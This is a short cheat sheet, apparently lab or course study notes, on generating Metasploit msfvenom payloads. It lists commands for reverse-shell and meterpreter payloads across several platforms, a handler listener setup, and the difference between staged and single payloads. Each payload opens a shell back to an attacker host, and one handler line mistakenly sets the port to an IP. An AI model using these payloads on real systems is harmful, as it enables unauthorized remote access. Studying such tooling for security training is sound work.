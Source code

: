 `msfvenom -p PAYLOAD_PATH LHOST=X.X.X.X -f exe(FORMAT) -o payload.exe(OUTPUT)`
`msfvenom -l payloads`
`msfvenom --list formats`
*Encoders are ot intended to bypass security, but may help* `msfvenom -l encoders`
#### Handlers
`use exploit/multi/handler` -> `set payload php/reverse_php` *(optional) omit for meterpreter shell*-\> `set lhost MY_IP` -\> `set lport MY_IP` -\> `run` *infers listener running*
#### Payload Examples
*must have set up listener or `exploit/multi/handler` module set up/listening for reverse shells above*
- Linux (elf): `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`
- Windows: `msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`
- PHP: `msfvenom -p php/meterpreter\_reverse\_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`
- ASP: `msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev\_shell.asp`
- Python: `msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`
- `msfvenom -l payloads | grep meterpreter`, shows reverse and bind meterpreter shells on different platforms

*Consider: target OS, programs on the system, available connection types*

# Single vs. Staged
Stages: Downloaded by the stager after access is achieved on the target
`generic/shell_reverse_tcp` - denotes an single payload
`windows/x64/shell/reverse_tcp` - denotes a staged payload (stager + stage)